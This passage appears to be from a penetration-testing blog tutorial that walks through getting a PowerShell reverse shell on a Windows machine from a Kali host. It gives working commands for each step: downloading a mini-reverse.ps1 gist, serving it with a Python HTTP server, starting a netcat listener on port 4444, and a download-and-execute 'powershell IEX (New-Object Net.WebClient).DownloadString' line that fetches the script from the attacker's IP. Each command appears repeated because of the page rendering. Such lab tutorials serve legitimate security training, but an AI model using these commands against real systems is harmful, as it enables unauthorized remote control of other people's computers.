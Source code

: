 This website, which is listed below, must be visited, and because it is a Github website, we must download the link.

wget https://gist.githubusercontent.com/Serizao/6a63f35715a8219be6b97da3e51567e7/raw/f4283f758fb720c2fe263b8f7696b896c9984fcf/mini-reverse.ps1

wget https://gist.githubusercontent.com/Serizao/6a63f35715a8219be6b97da3e51567e7/raw/f4283f758fb720c2fe263b8f7696b896c9984fcf/mini-reverse.ps1

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
wget https://gist.githubusercontent.com/Serizao/6a63f35715a8219be6b97da3e51567e7/raw/f4283f758fb720c2fe263b8f7696b896c9984fcf/mini-reverse.ps1
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEj1wQymdCk9vyC-D3pyKsmOVpFJmdnGvxHNN3CSjKel7OaYlXFyWLAIfEwAb1MMGoJ468Kt3S3iZBtaPDXTjewWovhGzUplpzEIjxH9Plm0zGRSZaoBLnVuDa9tJg36KglVE4etExwKEQsyhoJ5Ck3qp12TkqACqMWaf-jfjhYQJhjGqyyQB6fcM6U05g=s16000)

****We must examine the code within the script and change the IP address provided there to our local IP address (Kali IP address).

Once you’ve finished making changes, save the file and start up the Python server.

python -m SimpleHTTPServer 80

python -m SimpleHTTPServer 80

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
python -m SimpleHTTPServer 80
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEj7UiNinc_SooGhGk9jaKL1ltTdkivTlifk249nTuMQXda6P1bbIZYWJq9Fjl-Ff95EEn5S4c-8dxmg7vNDYeV-CTAypwFk3Y3vgXEPHMwKebfsQwNd_N1SWAzMP03AXuk5OTF_r04Rw4ocZeX2i6XKuZUeD8KYM6g6mnDh4VKCAIH38KimAPjqVPLmXA=s16000)

To obtain a reverse connection, one must first launch a Netcat listener on port 4444.

nc -nvlp 4444

nc -nvlp 4444

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
nc -nvlp 4444
</pre>

Users must enter the following command into the command prompt of the Windows machine. It will ease the execution of the mini reverse file. Keep in mind that the IP address should be your local IP address (Kali IP address). The command will assist us in obtaining the reverse shell.

powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3/mini-reverse.ps1')

powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3/mini-reverse.ps1')

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.3/mini-reverse.ps1')
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEifBUFVSuAEeRS95MjyIVHxYKTmQw_ISnHOM4yMSTh0a50PJVo1ngnsaVa2J_IeYtELZCG3-Y16APDHfJETOJ6HM7L0un7U9yfI2ETD5_z_ZotLXlzFRen_CfDIOCn9sqrR7tDUikwzbUnkzgErTQj0sq5FtIY6dBoUnadwwUYpTl5LmAJ5PfqsoxY9Tg=s16000)

We get the reverse shell in the Netcat listener

![](https://blogger.googleusercontent.com/img/a/AVvXsEg2pKaaWYS1qdxd23z4u18ECTJEMfI_R3h4EGdppe-mFR_zU0npTbfC-5aJbtVYPDxK8aEIwj6vD3fVrfr5NJoYymy4lahkRnqhbH9PIbZj6j_fqRk-RiLugG9pYDbu0aYAyKFEriJUeGxbGwD_j4F30NaGI8LioQu9Whfr0t6F2GKIDGVZnHiuFiaEQA=s16000)
